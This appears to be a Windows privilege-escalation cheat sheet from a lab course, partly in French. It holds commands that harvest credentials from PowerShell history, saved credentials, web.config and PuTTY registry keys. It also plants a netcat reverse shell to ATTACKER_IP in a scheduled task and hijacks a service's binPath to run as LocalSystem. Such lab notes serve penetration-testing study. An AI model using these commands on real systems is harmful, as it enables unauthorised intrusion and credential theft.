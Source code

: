 # acess control
```
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```
## check permissions on a file
```
icacls c:\tasks\schtask.bat
```
# Powershell History
## cmd
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## powershell
```
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
# Saved Windows Credentials
Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```
cmdkey /list
```
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```
runas /savecred /user:admin cmd.exe
```
# IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
Here is a quick way to find database connection strings on the file:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
# Retrieve Credentials from Software: PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# sheduled task (like crond on linux)
```
schtasks /query /tn vulntask /fo list /v
```
check permissions
```
icacls c:\tasks\file
```
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)`
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\<taskfile>
```
## run a task
```
schtasks /run /tn <taskname>
```
# service
## start or stop
```
sc stop THMService
sc start THMService
```
## check service configuration
Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the sc qc command:
```
sc qc <servicename>
```
## reconfigure service
Pour rechercher un service DACL à partir de la ligne de commande, vous pouvez utiliser Accesschk de la suite Sysinternals. Pour votre commodité, une copie est disponible à l'adresse C:\\tools. La commande pour vérifier la DACL du service thmservice est :
`C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS`
Ici, nous pouvons voir que le BUILTIN\\Usersgroupe dispose de l'autorisation SERVICE_ALL_ACCESS, ce qui signifie que n'importe quel utilisateur peut reconfigurer le service.
```
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
